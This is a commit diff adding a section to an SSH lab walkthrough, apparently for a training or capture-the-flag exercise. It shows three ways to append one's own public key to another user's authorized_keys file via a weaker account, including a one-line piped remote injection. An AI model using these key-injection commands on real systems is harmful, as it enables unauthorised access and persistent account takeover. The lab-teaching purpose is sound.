

Before and after one commit to phwrscr1pt/Hackdaybc, a Markdown page: docs/walkthrough-ssh-lab.md, the part around one of its changes. Shown at 80% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Add public key transfer methods to SSH lab walkthrough
- Method 1: Using SCP to copy public key to server
- Method 2: Copy-paste via terminal
- Method 3: One-line remote injection with pipe
- Comparison table explaining when to use each approach

Co-Authored-By: Claude Opus 4.5 <noreply@anthropic.com>

````diff
--- a/docs/walkthrough-ssh-lab.md
+++ b/docs/walkthrough-ssh-lab.md
@@ -301,3 +301,80 @@ ssh john@localhost -o StrictHostKeyChecking=no "cat ~/hint.txt"
 
 ---
 
+## Alternative: Transfer Public Key from Local Machine
+
+Instead of generating the SSH key on the server, you can generate it on your local machine and transfer the public key. This is useful when you want to SSH directly as john from your own computer.
+
+### Method 1: Using SCP (Secure Copy)
+
+**Step 1:** Generate SSH key on your local machine (if you don't have one):
+
+```bash
+# On your local machine (Windows/Mac/Linux)
+ssh-keygen -t rsa -f ~/.ssh/id_rsa -N ""
+```
+
+**Step 2:** Copy the public key to the server via noob:
+
+```bash
+# Copy public key to noob's home directory first
+scp -P 2222 ~/.ssh/id_rsa.pub noob@10.10.61.221:/home/noob/my_key.pub
+```
+
+**Step 3:** SSH as noob and inject the key to john:
+
+```bash
+ssh noob@10.10.61.221 -p 2222
+cat ~/my_key.pub >> /home/john/.ssh/authorized_keys
+exit
+```
+
+**Step 4:** Now SSH directly as john from your local machine:
+
+```bash
+ssh john@10.10.61.221 -p 2222
+```
+
+---
+
+### Method 2: Copy-Paste via Terminal
+
+**Step 1:** Display your local public key:
+
+```bash
+# On your local machine
+cat ~/.ssh/id_rsa.pub
+```
+
+Copy the output (starts with `ssh-rsa AAAA...`).
+
+**Step 2:** SSH as noob and write the key:
+
+```bash
+ssh noob@10.10.61.221 -p 2222
+
+# Paste your public key into john's authorized_keys
+echo "ssh-rsa AAAA... your-key-here" >> /home/john/.ssh/authorized_keys
+```
+
+**Step 3:** Exit and SSH as john:
+
+```bash
+exit
+ssh john@10.10.61.221 -p 2222
+```
+
+---
+
+### Method 3: One-Line Remote Injection
+
+If you already have `~/.ssh/id_rsa.pub` on your local machine:
+
+```bash
+# From your local machine - inject key in one command
+cat ~/.ssh/id_rsa.pub | ssh -p 2222 noob@10.10.61.221 "cat >> /home/john/.ssh/authorized_keys"
+
+# Now SSH directly as john
+ssh john@10.10.61.221 -p 2222
+```
+
````
Also changed, not shown: other parts of docs/walkthrough-ssh-lab.md (+14 -0 lines).
